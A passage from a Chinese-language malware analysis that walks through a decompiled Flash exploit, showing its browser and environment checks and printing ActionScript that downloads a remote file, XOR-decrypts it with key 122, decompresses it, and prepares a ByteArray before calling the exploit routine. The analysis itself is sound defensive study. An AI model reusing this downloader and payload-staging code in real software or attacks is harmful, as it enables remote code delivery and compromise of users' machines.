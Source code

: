 
可以看到这个代码针对的是 IE 和 Firefox 浏览器，其他浏览器都会报错，最后还检查了是否为调试版本、处理器是否为 64 位，以及是否内嵌在 Acrobat PDF 中，任意一种情况符合都会报错。

 

最后代码使用一开始从`info`参数解码出来的字符串，进行了 URL 请求：

```
var url_str:String = String(t_url);
loader = new URLLoader();
loader.dataFormat = URLLoaderDataFormat.BINARY;
loader.addEventListener(Event.COMPLETE,onLoadComplete);
loader.load(new URLRequest(t_url.toString()));

```

可见这个代码会联网下载其他文件，同时在下载完成后，执行`onLoadComplete`函数。

```
onLoadComplete = function(param1:Event):void
{
   content = loader.data;
   i = 0;
   while(i < content.length)
   {
      content[i] ^= 122;
      ++i;
   }
   content.uncompress();
   content_len = content.length;
   var _loc2_:ByteArray = new ByteArray();
   code = _loc2_;
   _loc2_.position = 1024 * 1024;
   _loc2_.writeInt(2053274210);
   _loc2_.writeInt(2053339747);
   _loc2_.writeInt(2053405283);
   _loc2_.writeObject(_loc2_);
   test();
   trace(_loc2_.length);
};

```

该函数会对下载的文件进行解密，解密方法和`info`参数一样。

 

之后创建了一个`ByteArray _loc2_`，目前还不知道这个变量有什么用，最后调用了`test()`函数。

 

`test`函数占据了这个文件的大部分篇幅，漏洞利用的内容应该也在这个函数中，

3. 测试漏洞利用文件执行情况
===============

3.1 环境搭建
--------
